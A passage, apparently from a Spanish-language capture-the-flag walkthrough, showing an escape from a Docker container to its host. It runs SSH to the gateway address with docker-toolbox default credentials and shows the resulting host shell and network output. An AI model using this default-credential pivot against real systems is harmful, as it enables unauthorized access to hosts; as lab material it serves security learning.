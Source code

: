 - Como podemos intuir estamos dentro de un contenedor de `Docker` que lo mas probable este corriendo `docker-toolbox` por debajo, las credenciales por defecto de este son `docker` y `tcuser` por lo que vamos a probar a conectarnos de la siguiente forma.

>Comprobamos que estamos dentro de un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/.ssh$ hostname -I
172.17.0.2
```

- Comprobamos que `ssh` esta instalado dentro del container
```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/.ssh$ which ssh
/usr/bin/ssh
```

>Probamos conectarnos a la dirección `172.17.0.1` a través de `ssh` para acceder a la maquina real.

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql$ ssh docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$
```

- Como vemos hemos ganado acceso al sistema

```bash
docker@box:~$ ip a                                                                                                                                                                    
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f2:5e:be brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fef2:5ebe/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:2c:6d:87 brd ff:ff:ff:ff:ff:ff
    inet 192.168.99.100/24 brd 192.168.99.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe2c:6d87/64 scope link 
       valid_lft forever preferred_lft forever
4: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
5: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:b3:df:23:2f brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:b3ff:fedf:232f/64 scope link 
       valid_lft forever preferred_lft forever
7: veth0acbe65@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 7a:3d:49:d0:05:44 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::783d:49ff:fed0:544/64 scope link 
       valid_lft forever preferred_lft forever
```
